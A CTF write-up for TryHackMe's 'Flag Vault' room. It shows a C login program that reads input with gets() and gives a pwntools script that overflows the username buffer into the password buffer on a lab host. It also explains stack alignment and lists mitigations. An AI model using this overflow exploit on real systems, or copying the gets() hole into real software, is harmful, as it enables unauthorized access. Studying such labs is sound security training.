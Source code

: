 # TryHackMe - Flag Vault (CTF Write-up)

> Author: Adam Pawelczyk
>
> Date: 2025-07-06
>
> Category: Binary Exploitation / Reverse Engineering
>
> Difficulty: Easy
>
> [TryHackMe Link](https://tryhackme.com/room/hfb1flagvault)


## Challenge Description

Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

We're provided with the source code for a C-based login system. According to the challenge description, the password is hardcoded, but the input for it is commented out.


## Goal

Bypass the login mechanism and retrieve the flag.


## TL;DR

- Analyzed the provided C source code.
- Found that password input is disabled, while a hardcoded password check remains active.
- Identified a classic buffer overflow opportunity via the `gets()` call.
- Crafted an exploit using Python and `pwntools` to overwrite the password buffer in memory.
- Successfully retrieved the flag.


## Source Code Analysis

We are given the C source code. Here's a breakdown of the most critical part:

#### Vulnerable login logic:

```c
char password[100] = "";
char username[100] = "";

printf("Username: ");
gets(username);

// If I disable the password, nobody will get in.
//printf("Password: ");
//gets(password);

if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
    print_flag();
}
else{
    printf("Wrong password! No flag for you.");
}
```

#### Key Observations:

- Password prompt is commented out, meaning password remains an empty string.
- `gets(username)` is used - a dangerous function that doesn't check bounds.
- If both username and password match the hardcoded values, the flag is printed.
- Since we control username, and it's stored before password in memory, we can overflow into password using a long enough input.


## Exploitation Strategy

We aim to overwrite the empty password buffer with the `5up3rP4zz123Byte` string by overflowing the username buffer.

To find the correct padding between username and password, we bruteforce it.


## Exploit Code

```python
from pwn import *

context.log_level = 'warning'

for padding in range(89, 110):
    conn = remote('10.10.147.75', 1337)
    payload = b'bytereaper\x00' + b'0' * padding + b'5up3rP4zz123Byte'

    conn.recvuntil(b'Username:')
    conn.sendline(payload)

    response = conn.recvall().decode().lstrip()

    if response != 'Wrong password! No flag for you.':
        print(f'padding: {padding}')
        print(f'flag: {response}')
```

This script:
- Connects to the server.
- Sends a crafted payload to overflow username and overwrite password.
- Brute-forces the correct padding.
- Prints the flag on a successful authentication.

## Exploitation Output

Upon executing the exploit code we get our flag:

![flag](images/flag.png)


#### Why is the Padding 101 Bytes?

After writing the 10-character username and a null terminator (11 bytes total), we expected the remaining 89 bytes (of the 100-byte buffer) to end right at the boundary.

However, due to how stack variables are laid out and aligned in memory, there's a **12-byte padding** between the username and password buffers.

This padding ensures the stack remains aligned to **16 bytes**, in accordance with the **System V AMD64 ABI**, which modern compilers like GCC follow. It improves memory access performance and maintains compatibility.

So the full structure looks like this:

- `username[100]` - starts at aligned address.
- 12-byte padding - inserted by the compiler for alignment.
- `password[100]` - follows the padding.

To overflow from the start of username into password, we need:

- 11 bytes - username + null terminator
- 101 bytes - padding to reach the password buffer

Total: **112 bytes**, which aligns with our observed working exploit.

## Conclusion

The challenge showcased a classic example of insecure coding practices in C using `gets()` without bounds checking and leaving critical logic in place even when input is removed.

#### Skills Practiced

- Manual code review and vulnerability analysis.
- Understanding stack layout and memory buffer overflows.
- Writing custom exploits using `pwntools`.

#### Mitigations

- Never use `gets()` - it's unsafe. Use `fgets()` or other bounded alternatives.
- Never store passwords in plaintext or hardcode them into binaries.
- Always validate input length and use secure memory handling practices.

#### Final Thoughts

Although the password prompt was disabled, the actual authentication logic remained, making the system vulnerable to a buffer overflow exploit. This challenge was a fun and simple exercise in binary exploitation and reverse engineering fundamentals.

**Note:** The flag value has been redacted in accordance with TryHackMe's write-up policy.